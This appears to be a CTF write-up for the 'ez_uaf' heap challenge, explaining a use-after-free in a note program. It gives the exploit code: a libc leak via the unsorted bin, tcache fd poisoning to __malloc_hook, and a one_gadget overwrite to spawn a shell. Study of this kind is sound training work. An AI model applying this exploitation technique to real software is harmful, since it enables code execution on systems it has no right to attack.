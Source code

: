 ```yaml
---
title: '[HNCTF 2022 WEEK4] ez_uaf'
date: 2024-04-03 13:00:00 +0800
categories: [uaf,unsortedbin,leak_libc]
tags: [ctf,pwn]
---
```


```shell
[*] '/home/bamuwe/ez_uaf/ez_uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $ checksec ./ez_uaf

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> $ ./ez_uaf

```c
__int64 delete()
{
  __int64 result; // rax
  signed int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && *(*(&heaplist + v1) + 28LL) )
  {
    free(*(*(&heaplist + v1) + 16LL));
    free(*(&heaplist + v1));
    result = *(&heaplist + v1);
    *(result + 28) = 0;
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
  return result;
}
```

> delete()漏洞函数,没有清除指针

```python
def add(size,name,content):
    io.sendlineafter(b'Choice: \n',b'1')
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendafter(b'Name: \n',name)
    io.sendafter(b'Content:\n',content)

def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(int(idx)))

def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    io.send(content)
```

> 交互函数

程序逻辑:

1. `add()`一个`chunk`
2. `free()`这个区块后仍然可以对这个区块进行`edit()`,`show()`

利用思路:

1. 利用unsortbin指向自身的特点,泄露出`main_arena`的地址,进而泄露出`__malloc_hook`的地址

   ```python
   add(0x410,b'a',b'a')    #0
   add(0x20,b'b',b'1111')  #1						#后续利用的chunk
   add(0x10,b'c',b'c')     #2						#后续利用的chunk
   free(0)                                         #unsortbin指向自身
   show(0)
   #leak_libc
   io.recvuntil(b'\n')
   malloc_hook_addr = u64(io.recv(6).ljust(8,b'\x00'))-96-16
   success(f'malloc_hook_addr=> {hex(malloc_hook_addr)}')
   lib_offset = malloc_hook_addr - lib.sym['__malloc_hook']
   one_gadgets_addr = 0x10a2fc+lib_offset			#后续利用
   ```

   ![image-20240430195924018](./../../AppData/Roaming/Typora/typora-user-images/image-20240430195924018.png)

2. 释放`chunk1`并且修改`chunk1`的`fd`的地址为`__malloc_hook`的地址,制造`fake_chunk`

   ```python
   free(1)
   edit(1,p64(malloc_hook_addr))       # 修改fd
   ```

   ![image-20240430200315872](./../../AppData/Roaming/Typora/typora-user-images/image-20240430200315872.png)

3. 利用`fake_chunk`修改`__malloc_hook` 的内容为`one_gadget`,重新`add()`一个`chunk`得到`shell`

   ```python
   add(0x10,b'2',b'2')     #3          #tcachebin规则          
   add(0x20,b'3',b'3')     #4        #fake_chunk,地址为malloc_hook_addr
   edit(4,p64(one_gadgets_addr))
   
   io.sendlineafter(b'Choice: \n',b'1')
   io.sendlineafter(b'Size:\n',b'0x20')
   ```

   提到`tcachebin`规则,由上图可知,当前`tcachebin`在`malloc_hook`之前还有两个堆块,所以我们要填充再利用

关于`unsortedbin`:

> 1.当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
>
> 2.释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
>
> 3.当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

